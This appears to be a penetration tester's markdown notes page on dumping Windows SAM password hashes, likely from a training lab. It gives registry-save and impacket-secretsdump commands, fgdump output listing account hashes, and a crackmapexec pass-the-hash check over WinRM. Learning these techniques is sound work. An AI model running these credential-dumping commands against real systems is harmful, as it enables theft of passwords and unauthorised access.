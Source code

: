 ```yaml
---
description: >-
  Dumping SAM
title: Dumping SAM              # Add title here
date: 2022-12-16 08:00:00 -0600                           # Change the date to match completion date
categories: [12 Active Directory, Persistence]          # Change Templates to Writeup
tags: [active directory, persistence, sam, dump, fgdump, impacket-secretsdump]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Traditional dumping

In order to dump the same, two register keys must be retrieved:
```powershell
reg save hklm\sam c:\sam 
reg save hklm\system c:\system
```

You need to use impacket-secretsdump to retrieve hashes correctly (samdump2 is not useful here):

```powershell
impacket-secretsdump -system system -sam sam LOCAL
```

### fgdump.exe

Another way to extract the hashes (useful for older Windows versions) is fgdump executable, we only need to upload it to the server and run it, then upon succed a file will be generated:

```powershell
fgdump.exe

type 127.0.0.1.pwdump
admin:1007:A46139FEAAF2B9F117306D272A9441BB:C5E0002FDE3F5EB2CF5730FFEE58EBCC:::
Administrator:500:7BFD3EE62CBB0EBA886450C5D6C50F12:F3ACBE7EC27AADBE8DEEAA0C651A64AF:::
backup:1006:16AC416C2658E00DAAD3B435B51404EE:938DF8B296DD15D0DCE8EAA37BE593E0:::
david:1009:43AF16FFF22F1628AAD3B435B51404EE:1FBFF38CAE51E9918DA1FEC572F03E11:::
gary:1013:998D9DC042886317C72BEFE227197AE1:BA359FA9D25791C2180E424BB7BB0753:::
Guest:501:NO PASSWORD*********************:NO PASSWORD*********************:::
homer:1017:EF91A6D3CF901B8BAAD3B435B51404EE:B184D292A82B6AD35C3CFCA81F1F59BC:::
IUSR_SRV2:1020:F7D96EBCBE5B6BE3103CCB00190F6271:09FF503707453D56BB69F40BEF542DA0:::
IWAM_SRV2:1019:96FE1FC02D73A84C463DB170B09126F1:BE6EC26D0D71A533E14B65CE755D7BCE:::
john:1010:E52CAC67419A9A2238F10713B629B565:5835048CE94AD0564E29A924A03510EF:::
lee:1015:B096847EAD9B7476AAD3B435B51404EE:208ADB08381ADAB3032EEDBD35399642:::
lisa:1011:A179639DCAF4E1C4AAD3B435B51404EE:8ACF28FDC0168E003FB3E05BCB463D1B:::
mark:1012:6C3D4C343F999422AAD3B435B51404EE:BCD477BFDB45435A34C6A38403CA4364:::
ned:1016:836EDA0FBC609E6393E28745B8BF4BA6:4F16328129408ED105DEC3A938C266EB:::
nick:1014:59B8B93A9A6477E4AAD3B435B51404EE:EE28AD35A22C752C1A75BE3F9A7E82C9:::
simon:1008:598DDCE2660D3193AAD3B435B51404EE:2D20D252A479F485CDF5E171D93985BF:::
sqlusr:1005:6307AB24156C541AAAD3B435B51404EE:6A370590BD44AC8E65D045254A170AB7:::
todd:1018:9E00B755E79C8CF95533B366E9511E4B:4150133921FE34DD2E777B1CA0361410:::
TsInternetUser:1000:E52CAC67419A9A22F96F275E1115B16F:E22E04519AA757D12F1219C4F31252F4:::
```

Then you can use the hash retrieved by using crackmapexec to check that indeed is a correct hash:

```powershell
crackmapexec winrm 192.168.143.59 -u Administrator -p aad3b435b51404eeaad3b435b51404ee:8c802621d2e36fc074345dded890f3e5 -d offsec.local
```

For further details about how to use this hash on a pass the hash attack please refer to [[Pass The Hash#^093000]]



